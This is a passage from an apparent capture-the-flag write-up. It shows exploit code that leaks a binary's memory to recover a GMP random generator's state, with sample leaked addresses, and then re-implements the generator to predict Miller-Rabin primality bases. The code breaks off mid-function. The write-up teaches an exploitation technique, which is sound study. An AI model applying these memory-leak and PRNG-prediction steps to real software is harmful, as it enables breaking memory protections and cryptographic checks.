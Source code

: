 ```
0x55f039315370: 0x17e984772c9c5dbd      0x50b9e2235dc0df41
```

So, we can retrieve the values of $k$ and $X$ from the binary:

```python
k_addr = leak_add(elf.sym.k+8)
k = leak_add(k_addr)
print(f"k = {hex(k)}")

algdata_ptr = leak_add(elf.sym.st+0x8)
print(f"algdata_ptr  = {hex(algdata_ptr)}")

x_ptr = algdata_ptr + 64
print(f"x_ptr  = {hex(x_ptr)}")

chunks = []
for i in range(16):
    chunks.append(p64(leak_add(x_ptr + i*8)))

Xbytes = b"".join(chunks)
assert b"\x00" not in Xbytes
X = int.from_bytes(Xbytes, 'little')
print(f"Leaked 1024-bit state X = {hex(X)}")
```

Since our leak relies on overwriting `\x00` with `\n`, any address or value we leak cannot contain `\x00`. Therefore, we must rerun the attack until the leaked values do not contain a null-byte.

```
PIE = 0x55f038d57000
k = 0x46ed81
algdata_ptr  = 0x55f0393152c0
x_ptr  = 0x55f039315300
Leaked 1024-bit state X = 0x50b9e2235dc0df4117e984772c9c5dbd7d86f2f23316cc7f140c017107775d37fbb371fcae55b7b7fb0302810f3668628f9914b302e0967acdd12d48238d36084d5b571b50e6a95b416760bd066590af07a3f69c34ec83bc88e98595174a6964a7a71d64ebf073cb9ca3c08925695bcfcfd2a64548f2e35cecac3f17450b1e56
```

##### Predicting the bases

With $k$ and $X$ leaked from the binary, we can recreate the PRNG locally to generate the 6 bases used in the Miller-Rabin primality check. We can recreate the `__gmp_randinit_lc_2exp` LCG locally, and, with some reverse-engineering and lucky prompts, recreate GMP's `__gmpz_urandomm()` function:

```python
A = 0x5851f42d4c957f2d
C = 1
MASK1024  = 2^1024 - 1
HALF_BITS = 512
HALF_MASK = 2^HALF_BITS - 1

class LCG1024:
    def __init__(self, X):
        self.X = X & MASK1024

    def step(self):
        self.X = (A * self.X + C) & MASK1024

    def high512(self):
        self.step()
        return (self.X >> HALF_BITS) & HALF_MASK

def _gmp_rand_bits(nbits, rng):
    chunk = rng.high512()
    if nbits <= HALF_BITS:
        return chunk & ((1 << nbits) - 1)
```